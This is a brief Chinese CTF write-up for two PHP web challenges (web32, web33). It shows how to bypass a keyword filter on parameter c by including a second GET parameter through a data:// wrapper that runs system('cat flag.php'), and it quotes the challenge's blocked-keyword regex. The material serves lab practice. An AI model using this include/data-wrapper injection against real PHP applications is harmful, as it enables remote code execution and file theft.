 这里我们采用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

**至于为什么后面可以出现过滤掉的字符，因为只是对get传入的c进行过滤**

输入

![image-20231216114405782](image/image-20231216114405782.png)

得到flag

------

#### web33

分析

![image-20231216114912110](image/image-20231216114912110.png)

过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"
```

但是对于web32构建的命令并没有影响，再次利用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115047926](image/image-20231216115047926.png)
